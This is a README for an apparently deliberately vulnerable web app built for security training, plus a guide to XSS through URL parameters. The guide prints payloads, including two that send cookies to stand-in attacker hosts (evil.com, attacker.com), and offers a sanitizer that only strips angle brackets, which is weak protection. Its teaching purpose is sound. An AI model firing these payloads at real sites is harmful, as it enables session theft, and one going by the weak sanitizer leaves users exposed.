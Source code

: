 # VULN-STACK

## Application Overview

`Vuln-Stack` is a deliberately vulnerable full-stack web application designed for educational and testing purposes. It demonstrates common web security flaws, including Cross-Site Scripting (XSS), insecure authentication, and improper input validation. The stack typically includes a React frontend, Node.js/Express backend, and a MongoDB database.

## Features

- **User Authentication:** Simple login and registration forms with intentionally weak validation.
- **Profile Management:** Users can update profile information, exposing potential injection points.
- **Message Board:** Public posting feature vulnerable to XSS and CSRF attacks.
- **API Endpoints:** RESTful routes for user and message management, lacking proper authorization checks.

## Architecture

- **Frontend:** React application with routing and state management. User input is rendered directly into the DOM in several places.
- **Backend:** Express server handling authentication, data storage, and API requests. Input is often processed without sanitization.
- **Database:** MongoDB stores user and message data. Queries are constructed without parameterization, exposing NoSQL injection risks.

## Known Vulnerabilities

1. **Cross-Site Scripting (XSS):**
    - User input is rendered without escaping.
    - Use of `dangerouslySetInnerHTML` in React components.
2. **Cross-Site Request Forgery (CSRF):**
    - No CSRF tokens implemented for state-changing requests.
3. **Broken Authentication:**
    - Passwords stored in plaintext.
    - Sessions managed with insecure cookies.
4. **NoSQL Injection:**
    - User input directly used in MongoDB queries.
5. **Sensitive Data Exposure:**
    - No HTTPS enforced.
    - JWT secrets and database credentials hardcoded.

## Setup Instructions

1. **Clone the Repository:**
    ```bash
    git clone https://github.com/lightmnd/vuln-stack.git
    cd vuln-stack
    ```
2. **Install Dependencies:**
    ```bash
    npm install
    cd client && npm install
    ```
3. **Configure Environment:**
    - Edit `.env` files for backend and frontend.
    - Set MongoDB URI and JWT secret.
4. **Run the Application:**
    ```bash
    npm run dev
    cd client && npm start
    ```

## Usage

- Register a new user and log in.
- Post messages to the board.
- Edit your profile and observe how input is handled.
- Experiment with attack payloads to understand vulnerabilities.

## Security Recommendations

- Sanitize and validate all user input.
- Use HTTPS for all communications.
- Store passwords securely (hashing and salting).
- Implement CSRF protection.
- Avoid exposing sensitive configuration in source code.
- Use parameterized queries for database access.

## Disclaimer

This application is intentionally insecure and should only be used in isolated, non-production environments for learning and testing purposes.



# FOCUS-ON: XSS Attack Vector: URL Parameter Injection

## Overview
This document explains how attackers can exploit URL parameters to inject malicious code through image tags, using the example from our vulnerable React application.

## Vulnerable Code Example
```javascript
<a href="https://my-bank.example.com/welcome?user=<img src=x onerror=alert('hello!')>"></a>
```

## How the Attack Works

1. **Initial Vulnerable Link**
   - The application accepts unvalidated user input in URL parameters
   - Parameters are rendered directly into the HTML without proper encoding

2. **Attack Payload**
   - Attacker injects HTML/JavaScript through the URL parameter
   - The malicious `<img>` tag is inserted with an invalid source
   - When the image fails to load, the `onerror` event triggers
   - Malicious JavaScript executes in the victim's browser context

3. **Common Attack Variations**
   ```html
   // Basic XSS
   <img src="x" onerror="alert(document.cookie)">
   
   // Data theft
   <img src="x" onerror="fetch('https://evil.com/steal?c='+document.cookie)">
   
   // Session hijacking
   <img src="x" onerror="new Image().src='http://attacker.com/'+document.cookie">
   ```

## Prevention Methods

### 1. URL Parameter Encoding
```javascript
<a href={`https://my-bank.example.com/welcome?user=${encodeURIComponent(username)}`}>
  Welcome
</a>
```

### 2. Content Security Policy
```javascript
app.use((req, res, next) => {
  res.setHeader(
    'Content-Security-Policy',
    "default-src 'self'; img-src 'self' https:; script-src 'self'"
  );
  next();
});
```

### 3. Input Validation
```javascript
const validateInput = (input) => {
  return input.replace(/[<>]/g, '');
};
```

## Security Best Practices

1. Never trust user input
2. Always encode/escape output
3. Implement CSP headers
4. Use React's built-in XSS protections
5. Avoid using `dangerouslySetInnerHTML`
6. Validate input on both client and server side
7. Use secure cookie attributes (HttpOnly, Secure, SameSite)

## Impact of Successful Attacks
- Cookie theft
- Session hijacking
- Data exfiltration
- Malicious redirects
- Client-side malware injection

## Testing Tools
- Browser Developer Tools
- OWASP ZAP
- Burp Suite
- XSS Hunter

## Additional Resources
- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [React Security Documentation](https://reactjs.org/docs/dom-elements.html#security-concerns)
- [Content Security Policy Reference](https://content-security-policy.com/)

## Note
This documentation is for educational purposes only. The vulnerable code examples should never be used in production environments.